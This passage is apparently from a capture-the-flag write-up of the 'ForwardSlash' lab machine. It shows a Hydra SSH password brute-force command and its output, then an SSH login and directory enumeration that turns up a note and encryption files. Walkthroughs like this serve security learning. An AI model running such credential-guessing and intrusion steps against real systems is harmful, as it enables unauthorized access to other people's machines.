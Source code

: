 Validated the credentials with *Hydra*.

```bash
hydra ssh://10.129.190.235 -L users.list -P pwd.list -I -t 4

[22][ssh] host: 10.129.190.235   login: chiv   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-12 11:56:08
```

Established a fully interactive SSH session as *Chiv*. Noice!

```bash
ssh chiv@10.129.190.235

chiv@forwardslash:~$ whoami
chiv

chiv@forwardslash:~$ id
uid=1001(chiv) gid=1001(chiv) groups=1001(chiv)
```

# Lateral Movement

Our home directory doesn’t have a sh*t, but there is an interesting *note.txt* file in *Pain*’s home dir.

```
chiv@forwardslash:/home$ ls -lah
total 16K
drwxr-xr-x  4 root root 4.0K Mar  5  2020 .
drwxr-xr-x 24 root root 4.0K Mar 24  2020 ..
drwxr-xr-x  5 chiv chiv 4.0K Mar 24  2020 chiv
drwxr-xr-x  7 pain pain 4.0K Mar 17  2020 pain

chiv@forwardslash:/home$ cd pain

chiv@forwardslash:/home/pain$ ls -l
total 12
drwxr-xr-x 2 pain root 4096 Mar 24  2020 encryptorinator
-rw-r--r-- 1 pain root  256 Jun  3  2019 note.txt
-rw------- 1 pain pain   33 Jul 12 09:20 user.txt
```

A crypto challenge T-T. Spoiler: We skipped it hahahaha.

```
chiv@forwardslash:/home/pain$ cat note.txt
Pain, even though they got into our server, I made sure to encrypt any important files and then did some crypto magic on the key... I gave you the key in person the other day, so unless these hackers are some crypto experts we should be good to go.

-chiv

chiv@forwardslash:/home/pain$ cd encryptorinator

chiv@forwardslash:/home/pain/encryptorinator$ ls -lah
total 16K
drwxr-xr-x 2 pain root 4.0K Mar 24  2020 .
drwxr-xr-x 7 pain pain 4.0K Mar 17  2020 ..
-rw-r--r-- 1 pain root  165 Jun  3  2019 ciphertext
-rw-r--r-- 1 pain root  931 Jun  3  2019 encrypter.py
```
